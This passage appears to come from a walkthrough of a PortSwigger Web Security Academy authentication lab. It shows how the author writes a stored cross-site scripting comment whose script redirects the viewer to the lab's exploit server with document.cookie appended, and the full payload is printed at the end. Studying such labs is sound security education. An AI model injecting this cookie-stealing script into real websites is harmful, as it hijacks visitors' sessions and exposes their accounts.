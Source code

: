 ![exploit server](/docs/assets/images/portswigger/authentication/othermechanisms/oam27.png)

With that I can craft my payload. I'll use the `<script>` tags to embed javascript into the HTML of the comment section. The `document.location` Javascript object represents the current URL of the webpage, by assigning it the value of my exploit server URL,` '//exploit-0ab000e8035f115580acc5b00129000d.exploit-server.net/exploit.exploit-server.net/'` it will redirect my browser there instead. Finally I'll use the `document.cookie` JavaScript property to retrieve al cookies associated with the current domain so that information can be logged by my exploit servers access log. In the end the payload is as follows: 

`<script>document.location='//exploit-0ab000e8035f115580acc5b00129000d.exploit-server.net/exploit.exploit-server.net/'+document.cookie</script>` 

